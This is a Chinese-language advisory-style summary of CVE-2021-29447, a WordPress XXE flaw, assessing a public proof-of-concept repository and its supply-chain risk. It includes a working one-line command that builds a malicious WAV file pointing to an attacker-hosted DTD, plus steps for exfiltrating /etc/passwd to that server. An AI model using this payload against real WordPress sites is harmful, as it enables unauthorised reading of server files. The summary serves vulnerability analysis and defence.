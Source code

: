 ## CVE-2021-29447 - WordPress XXE

**漏洞编号:** CVE-2021-29447

**漏洞类型:** XML 外部实体注入 (XXE)

**影响应用:** WordPress

**危害等级:** 高危，可能导致敏感文件泄露

**影响版本:** >= 5.6.0, < 5.7.1 (PHP 8)

**利用条件:** 需要作者级别或以上权限，且WordPress运行在PHP 8环境下

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-29447 是一个存在于 WordPress 5.6.0 到 5.7.1 版本的 XXE 漏洞。该漏洞允许具有文件上传权限的用户（如作者）通过上传包含恶意 XML 的媒体文件来读取服务器上的敏感文件。该漏洞仅影响运行在 PHP 8 环境下的 WordPress 安装。

**有效性分析：**
提供的 POC 代码是有效的，它演示了如何利用该漏洞。利用方式是通过上传一个特制的 WAV 文件，该文件包含指向外部恶意的 DTD 文件的 XML 实体声明。当 WordPress 解析该文件时，会尝试从攻击者控制的服务器加载 DTD 文件，并执行其中定义的 XML 实体，从而导致 XXE 漏洞。

**投毒风险分析：**
代码仓库中可能存在的投毒风险较低，约为10%。 主要的攻击逻辑集中在 `attacker/www/evil.dtd` 文件中，该文件定义了如何利用 XXE 漏洞读取文件内容。`attacker/malicious_wav/index.js` 用于生成包含恶意 XML 的 WAV 文件。虽然攻击者可以修改这些文件以执行恶意操作，但这些修改会很容易被发现，因此，总体投毒风险较低。`decryption.php` 文件是空的，没有投毒代码.

**利用方式：**
1.  **环境搭建:** 使用 `docker-compose up` 启动包含 WordPress 和 MySQL 数据库的 Docker 容器。
2.  **攻击者服务器:** 启动一个简单的 PHP Web 服务器，用于托管恶意的 DTD 文件 (`evil.dtd`)。
3.  **生成恶意 WAV 文件:**  使用 `make make-wav` 或者 `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '\''http://host.docker.internal:8001/evil.dtd'\''>%remote;%init;%trick;] >\x00'> malicious.wav` 命令生成包含恶意 XML 声明的 WAV 文件。
4.  **登录 WordPress 并上传:**  以具有文件上传权限的用户身份登录 WordPress 后台，并将生成的恶意 WAV 文件上传到媒体库。
5.  **触发漏洞:**  上传后，WordPress 会尝试解析 WAV 文件，从而触发 XXE 漏洞，并向攻击者的服务器发送请求。
6.  **获取数据:** 攻击者的服务器会记录收到的请求，其中包含从 WordPress 服务器读取的敏感文件内容（如 `/etc/passwd` 文件）的 Base64 编码版本。可以通过运行`decryption.php` 来解码.

通过这种方式，攻击者可以在未经授权的情况下访问 WordPress 服务器上的敏感文件，从而可能导致更严重的攻击。

**项目地址:** [motikan2010/CVE-2021-29447](https://github.com/motikan2010/CVE-2021-29447)

**漏洞详情:** [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447)